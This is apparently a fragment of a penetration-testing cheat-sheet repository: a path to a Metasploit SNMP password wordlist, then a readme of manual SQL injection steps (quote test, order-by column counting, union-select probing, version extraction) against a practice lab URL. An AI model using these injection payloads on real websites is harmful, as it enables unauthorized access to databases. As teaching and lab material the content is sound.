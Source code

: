 /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt







---
File: /CheatSheets/SQLI/barehands/readme.md
---

# SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://192.168.1.104/Less-1/?id=5'`

### Fuzzing

Sorting columns to find maximum column

`http://192.168.1.104/Less-1/?id=-1 order by 1`

`http://192.168.1.104/Less-1/?id=-1 order by 2`

`http://192.168.1.104/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---


### Finding what column is injectable

**mysql**
`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql**
`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---


#### Finding version

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()` **mysql**
`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s
